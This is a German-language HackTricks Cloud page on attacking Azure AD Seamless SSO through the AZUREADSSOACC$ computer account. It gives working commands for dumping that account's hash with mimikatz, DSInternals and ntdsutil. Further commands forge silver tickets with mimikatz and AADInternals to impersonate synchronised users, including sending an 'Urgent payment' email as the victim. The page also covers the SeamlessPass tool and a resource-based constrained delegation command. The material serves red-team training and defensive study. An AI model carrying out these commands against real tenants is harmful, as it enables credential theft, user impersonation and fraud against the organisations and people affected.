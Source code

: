 # Az - Seamless SSO

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Grundinformationen

[Aus den Dokumenten:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso) Azure Active Directory Seamless Single Sign-On (Azure AD Seamless SSO) **meldet Benutzer automatisch an, wenn sie sich auf ihren Unternehmensgeräten** befinden, die mit Ihrem Unternehmensnetzwerk verbunden sind. Wenn aktiviert, **müssen Benutzer ihre Passwörter nicht eingeben, um sich bei Azure AD anzumelden**, und normalerweise auch nicht ihre Benutzernamen. Diese Funktion bietet Ihren Benutzern einfachen Zugriff auf Ihre cloudbasierten Anwendungen, ohne dass zusätzliche lokale Komponenten erforderlich sind.

<figure><img src="../../../../.gitbook/assets/image (275).png" alt=""><figcaption><p><a href="https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso-how-it-works">https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso-how-it-works</a></p></figcaption></figure>

Im Grunde **meldet Azure AD Seamless SSO Benutzer an**, wenn sie sich **auf einem lokal verbundenen PC** befinden.

Es wird sowohl von [**PHS (Password Hash Sync)**](phs-password-hash-sync.md) als auch von [**PTA (Pass-through Authentication)**](pta-pass-through-authentication.md) unterstützt.

Desktop-SSO verwendet **Kerberos** zur Authentifizierung. Wenn konfiguriert, erstellt Azure AD Connect ein **Computer-Konto namens AZUREADSSOACC`$`** im lokalen AD. Das Passwort des `AZUREADSSOACC$`-Kontos wird **im Klartext an Azure AD gesendet** während der Konfiguration.

Die **Kerberos-Tickets** sind **verschlüsselt** mit dem **NTHash (MD4)** des Passworts, und Azure AD verwendet das gesendete Passwort, um die Tickets zu entschlüsseln.

**Azure AD** stellt einen **Endpunkt** (https://autologon.microsoftazuread-sso.com) zur Verfügung, der Kerberos **Tickets** akzeptiert. Der Browser des domain-verbundenen Geräts leitet die Tickets an diesen Endpunkt für SSO weiter.

### On-prem -> cloud

Das **Passwort** des Benutzers **`AZUREADSSOACC$` ändert sich niemals**. Daher könnte ein Domänenadministrator den **Hash dieses Kontos** kompromittieren und ihn dann verwenden, um **Silber-Tickets** zu erstellen, um sich mit **jedem synchronisierten lokalen Benutzer** bei Azure zu verbinden:
```powershell
# Dump hash using mimikatz
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\azureadssoacc$ /domain:domain.local /dc:dc.domain.local"'
mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit

# Dump hash using https://github.com/MichaelGrafnetter/DSInternals
Get-ADReplAccount -SamAccountName 'AZUREADSSOACC$' -Domain contoso -Server lon-dc1.contoso.local

# Dump using ntdsutil and DSInternals
## Dump NTDS.dit
ntdsutil "ac i ntds" "ifm” "create full C:\temp" q q
## Extract password
Install-Module DSInternals
Import-Module DSInternals
$key = Get-BootKey -SystemHivePath 'C:\temp\registry\SYSTEM'
(Get-ADDBAccount -SamAccountName 'AZUREADSSOACC$' -DBPath 'C:\temp\Active Directory\ntds.dit' -BootKey $key).NTHash | Format-Hexos
```
Mit dem Hash können Sie jetzt **silberne Tickets generieren**:
```powershell
# Get users and SIDs
Get-AzureADUser | Select UserPrincipalName,OnPremisesSecurityIdentifier

# Create a silver ticket to connect to Azure with mimikatz
Invoke-Mimikatz -Command '"kerberos::golden /user:onpremadmin /sid:S-1-5-21-123456789-1234567890-123456789 /id:1105 /domain:domain.local /rc4:<azureadssoacc hash> /target:aadg.windows.net.nsatc.net /service:HTTP /ptt"'
mimikatz.exe "kerberos::golden /user:elrond /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234 /domain:contoso.local /rc4:12349e088b2c13d93833d0ce947676dd /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit

# Create silver ticket with AADInternal to access Exchange Online
$kerberos=New-AADIntKerberosTicket -SidString "S-1-5-21-854168551-3279074086-2022502410-1104" -Hash "097AB3CBED7B9DD6FE6C992024BC38F4"
$at=Get-AADIntAccessTokenForEXO -KerberosTicket $kerberos -Domain company.com
## Send email
Send-AADIntOutlookMessage -AccessToken $at -Recipient "someone@company.com" -Subject "Urgent payment" -Message "<h1>Urgent!</h1><br>The following bill should be paid asap."
```
Um das Silver Ticket zu nutzen, sollten die folgenden Schritte ausgeführt werden:

1. **Browser starten:** Mozilla Firefox sollte gestartet werden.
2. **Browser konfigurieren:**
* Navigieren Sie zu **`about:config`**.
* Setzen Sie die Präferenz für [network.negotiate-auth.trusted-uris](https://github.com/mozilla/policy-templates/blob/master/README.md#authentication) auf die angegebenen [Werte](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso#ensuring-clients-sign-in-automatically):
* `https://aadg.windows.net.nsatc.net`
* `https://autologon.microsoftazuread-sso.com`
3. **Zugriff auf die Webanwendung:**
* Besuchen Sie eine Webanwendung, die mit der AAD-Domain der Organisation integriert ist. Ein häufiges Beispiel ist [Office 365](https://portal.office.com/).
4. **Authentifizierungsprozess:**
* Geben Sie auf dem Anmeldebildschirm den Benutzernamen ein und lassen Sie das Passwortfeld leer.
* Um fortzufahren, drücken Sie entweder TAB oder ENTER.

{% hint style="success" %}
Dies umgeht MFA nicht, wenn es aktiviert ist
{% endhint %}

#### Option 2 ohne dcsync - SeamlessPass

Es ist auch möglich, diesen Angriff **ohne einen dcsync-Angriff** durchzuführen, um stealthier zu sein, wie [in diesem Blogbeitrag erklärt](https://malcrove.com/seamlesspass-leveraging-kerberos-tickets-to-access-the-cloud/). Dafür benötigen Sie nur eines der folgenden:

* **TGT eines kompromittierten Benutzers:** Selbst wenn Sie keinen haben, aber der Benutzer kompromittiert wurde, können Sie einen mit dem Fake TGT Delegation Trick erhalten, der in vielen Tools wie [Kekeo](https://x.com/gentilkiwi/status/998219775485661184) und [Rubeus](https://posts.specterops.io/rubeus-now-with-more-kekeo-6f57d91079b9) implementiert ist.
* **Golden Ticket**: Wenn Sie den KRBTGT-Schlüssel haben, können Sie das benötigte TGT für den angegriffenen Benutzer erstellen.
* **NTLM-Hash oder AES-Schlüssel eines kompromittierten Benutzers:** SeamlessPass kommuniziert mit dem Domänencontroller mit diesen Informationen, um das TGT zu generieren.
* **AZUREADSSOACC$-Konto NTLM-Hash oder AES-Schlüssel:** Mit diesen Informationen und der Sicherheitskennung (SID) des Benutzers, den Sie angreifen möchten, ist es möglich, ein Serviceticket zu erstellen und sich mit der Cloud zu authentifizieren (wie im vorherigen Verfahren durchgeführt).

Schließlich ist es mit dem TGT möglich, das Tool [**SeamlessPass**](https://github.com/Malcrove/SeamlessPass) zu verwenden mit:

{% code overflow="wrap" %}
```
seamlesspass -tenant corp.com -domain corp.local -dc dc.corp.local -tgt <base64_TGT>
```
{% endcode %}

Weitere Informationen zur Konfiguration von Firefox für die Verwendung mit nahtlosem SSO sind [**in diesem Blogbeitrag zu finden**](https://malcrove.com/seamlesspass-leveraging-kerberos-tickets-to-access-the-cloud/).

#### ~~Erstellen von Kerberos-Tickets für Cloud-nur-Benutzer~~ <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Wenn die Active Directory-Administratoren Zugriff auf Azure AD Connect haben, können sie **SID für jeden Cloud-Benutzer festlegen**. Auf diese Weise können Kerberos **Tickets** **auch für Cloud-nur-Benutzer erstellt werden**. Die einzige Voraussetzung ist, dass die SID eine gültige [SID](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc778824\(v=ws.10\)) ist.

{% hint style="danger" %}
Das Ändern der SID von Cloud-nur-Admin-Benutzern ist jetzt **von Microsoft blockiert**.\
Für Informationen siehe [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
{% endhint %}

### On-prem -> Cloud über ressourcenbasierte eingeschränkte Delegation <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Jeder, der Computer-Konten (`AZUREADSSOACC$`) im Container oder in der OU, in der sich dieses Konto befindet, verwalten kann, kann **eine ressourcenbasierte eingeschränkte Delegation über das Konto konfigurieren und darauf zugreifen**.
```python
python rbdel.py -u <workgroup>\\<user> -p <pass> <ip> azureadssosvc$
```
## Referenzen

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso)
* [https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/](https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [TR19: Ich bin in deiner Cloud und lese die E-Mails von allen - Hacking Azure AD über Active Directory](https://www.youtube.com/watch?v=JEIR5oGCwdg)

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstütze HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}
